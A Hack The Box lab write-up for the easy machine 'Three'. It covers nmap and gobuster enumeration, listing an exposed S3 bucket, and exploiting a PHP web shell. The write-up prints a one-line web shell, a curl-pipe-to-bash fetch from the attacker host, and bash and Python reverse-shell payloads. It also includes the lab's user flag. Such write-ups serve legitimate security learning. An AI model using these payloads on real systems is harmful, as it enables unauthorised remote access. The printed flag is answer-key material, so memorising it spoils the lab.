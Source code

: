 # Three — HTB Lab

**Date**: 2025-09-09  
**Difficulty**: Easy  
**Target IP/URL**: 10.129.72.72  
**Objective**: Demonstrate basics of server-side command injection and remote code execution (RCE)

## 1. Reconnaissance
### Tools & Commands Used
- **Nmap**: Initial network scanning to identify open ports and services.
  - `qq-enum-host-nmap-top-discovery` (via Quiver, https://github.com/stevemcilwain/quiver).
  - `sudo nmap -vvv -Pn -sS -p- -sC -sV --open 10.129.72.72 -oA /home/kali/Hackthebox/three/hosts/10.129.72.72/nmap-all-discovery`
    - **Flags**: `-vvv` (verbose), `-Pn` (no ping), `-sS` (SYN scan), `-p-` (all ports), `-sC` (scripts), `-sV` (version), `--open` (show open ports), `-oA` (output all formats).

### Findings
- **22/tcp**: Open, SSH, OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0).  
  [Image Placeholder: nmap-scan]
- **80/tcp**: Open, HTTP, Apache httpd 2.4.29 (Ubuntu).  
  [Image Placeholder: nmap-scan]

## 2. Enumeration
### Tools & Commands Used
- **Gobuster**: Subdomain enumeration.
  - `gobuster vhost --append-domain -u http://thetoppers.htb/ -a "Mozilla/5.0" -t20 -k -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt | tee /home/kali/Hackthebox/three/hosts/thetoppers/gobuster-dirs-2.txt`
    - **Flags**: `vhost` (virtual host scan), `--append-domain` (append domain), `-u` (URL), `-a` (user-agent), `-t20` (20 threads), `-k` (ignore SSL errors), `-w` (wordlist), `tee` (save output).
  - [Image Placeholder: gobuster-scan]
- **AWS CLI**: S3 bucket enumeration.
  - Installed AWS CLI:
    ```bash
    curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
    unzip awscliv2.zip
    sudo ./aws/install
    aws configure
    ```
    [Image Placeholder: aws-config]
  - Listed buckets:
    ```bash
    aws --endpoint=http://s3.thetoppers.htb s3 ls
    ```
    [Image Placeholder: aws-bucket-list]
  - Listed bucket contents:
    ```bash
    aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --recursive
    ```
    [Image Placeholder: bucket-content]

### Findings
- Discovered subdomain: `s3.thetoppers.htb` (added to `/etc/hosts` with IP 10.129.72.72).
- S3 bucket `thetoppers.htb` contained files: `index.php`, `shells.php`.

## 3. Exploitation
### Vulnerability Identified
- **Vulnerability**: Remote Code Execution (RCE) via command injection in `shells.php`.
- **Details**: The file `shells.php` contained `<?php system($_GET["cmd"]); ?>`, allowing arbitrary command execution via the `cmd` URL parameter without input validation.
- **Why Vulnerable**: Lack of input sanitization enables attackers to execute system commands, leading to full server compromise.

### Exploit Steps
1. Downloaded `shells.php` from S3 bucket to analyze:
   ```bash
   aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb/shells.php ./shells.php
   ```
   [Image Placeholder: shell]
2. Identified `system($_GET["cmd"])` as a web shell.
3. Started a Netcat listener:
   ```bash
   nc -lvnp 4444
   ```
4. Attempted reverse shell via URL:
   - Initial attempt (failed due to firewall or missing binaries):
     ```bash
     http://thetoppers.htb/shells.php?cmd=curl%2010.10.14.40:8000/shell.sh|bash
     ```
     [Image Placeholder: shell-runn]
   - Second attempt (failed, likely firewall blocking):
     ```bash
     http://thetoppers.htb/shells.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.40%2F4444%200%3E%261
     ```
5. Successful Python reverse shell (URL-encoded):
   ```bash
   http://thetoppers.htb/shells.php?cmd=python3%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.40%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/bash%22)%27
   ```
   [Image Placeholder: second-shell-run]

## 4. Privilege Escalation
### Method
- Not required; initial shell provided user-level access sufficient to retrieve the flag.

### Commands & Output
- Stabilized the shell:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
- Fixed terminal issues (after `Ctrl+Z`):
  ```bash
  stty raw -echo; fg
  ```
- Navigated to user directory:
  ```bash
  ls 
  cd ..
  ls
  cat flag.txt
  ```

## 5. Post-Exploitation
- **Data Exfiltration**: None performed.
- **Persistence Method**: None established.
- **Interesting Files Found**: None noted beyond `user.txt`.

## 6. Results
- **User Flag**: ea81b7afddd03efaa0945333ed147fac  
  [Image Placeholder: flag]

## 7. Lessons Learned
### Key Takeaways
- **Reconnaissance**: Nmap revealed open ports 22 (SSH) and 80 (HTTP) running Apache 2.4.29 on Ubuntu.
- **Enumeration**: Added `thetoppers.htb` and `s3.thetoppers.htb` to `/etc/hosts` for name resolution. Gobuster with `vhost` mode found the S3 subdomain. AWS CLI revealed bucket contents (`index.php`, `shells.php`).
- **Exploitation**: Identified RCE in `shells.php`. Initial `curl` and `bash` reverse shells failed due to firewall restrictions or missing binaries. Python reverse shell succeeded after URL-encoding.
- **Shell Stabilization**: Used `python3 -c 'import pty; pty.spawn("/bin/bash")'` and `stty raw -echo; fg` to fix terminal issues (e.g., `^M` on Enter).
- **Pentesting Tip**: For ethical hacking, always verify S3 bucket permissions and test for misconfigured web shells, as they are common vulnerabilities.

### Mistakes to Avoid
- Use `gobuster vhost` for subdomain enumeration, not `dir`.
- If a reverse shell fails, suspect firewall rules or missing binaries (e.g., `netcat`). Try alternative payloads (Python, Perl).
- URL-encode complex commands to bypass server-side filtering.
- Stabilize shells early to avoid terminal issues.

## 8. Images
- [Image Placeholder: nmap-top-scan]
- [Image Placeholder: nmap-all-scan]
- [Image Placeholder: aws-config]
- [Image Placeholder: aws-bucket-list]
- [Image Placeholder: bucket-content]
- [Image Placeholder: gobuster-scan]
- [Image Placeholder: shell]
- [Image Placeholder: shell-runn]
- [Image Placeholder: second-shell-run]
- [Image Placeholder: flag]

## 9. References
- [Gobuster](https://github.com/OJ/gobuster)
- [Auto Wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
- [Quiver](https://github.com/stevemcilwain/quiver)
- [AWS CLI](https://aws.amazon.com/cli/)